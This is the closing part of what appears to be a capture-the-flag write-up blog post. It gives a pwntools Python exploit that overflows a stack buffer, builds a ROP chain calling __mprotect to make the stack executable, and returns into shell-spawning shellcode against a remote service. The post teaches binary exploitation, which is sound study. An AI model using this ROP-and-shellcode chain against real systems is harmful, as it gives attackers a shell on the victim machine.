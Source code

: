 ```python
# process = remote("xxx", 9010)

# Smash the stack
payload = b'A' * 40

# The following is quite convoluted.
# We need to pass the page aligned address of the stack region the program is
# using to __mprotect, alomg with the size and stack protection bitmap
# Since I could only find this ROP gadget:
#      and rdi, rsi; and rax, rsi; cmp rdi, rax; jne 0x78278; pop rbx; ret;
# I had to search for other gadget to load appropriate values in the
# appropriate registers.
payload += p64(next(elf.search(asm('pop rsi; ret;'))))
payload += p64(0xfffffffffffff000)
payload += p64(next(elf.search(asm('pop rax; ret;'))))
payload += p64(elf.symbols.__libc_stack_end - 0x08)
payload += p64(next(elf.search(asm('mov rax, qword ptr [rax + 8]; ret;'))))
payload += p64(next(elf.search(asm('pop r13; ret;'))))
payload += p64(elf.symbols.__libc_stack_end)
payload += p64(next(elf.search(asm('pop rbx; ret;'))))
#  and rdi, rsi; and rax, rsi; cmp rdi, rax; jne 0x78278; pop rbx; ret;
payload += p64(0x478266)
payload += p64(next(elf.search(asm('mov rdi, qword ptr [r13]; call rbx;'))))

# Load the stack protection bitmap
payload += p64(next(elf.search(asm('pop rdx; ret;'))))
payload += p64(0x7)  # PROT_READ|PROT_EXEC|PROT_WRITE
# Load the page size
payload += p64(next(elf.search(asm('pop rsi; ret;'))))
payload += p64(0x1000)  # Page size

# Call __mprotect
# __mprotect uses the following parameters:
#  Address in rdi
#  Size    in rsi
#  Prot    in rdx
payload += p64(elf.symbols.__mprotect)

# "Jump" (return) to the stack, where a shellcode is waiting for us
payload += p64(next(elf.search(asm('push rsp; ret;'))))
payload += asm(shellcraft.sh())

process.sendline(payload)

process.interactive()
```

---

# That's all

Thanks for reading

[Go to the Home Page]({{ '/' | absolute_url }})

![thats-all-folks.png]({{ '/' | absolute_url }}assets/images/thats-all-folks.png)
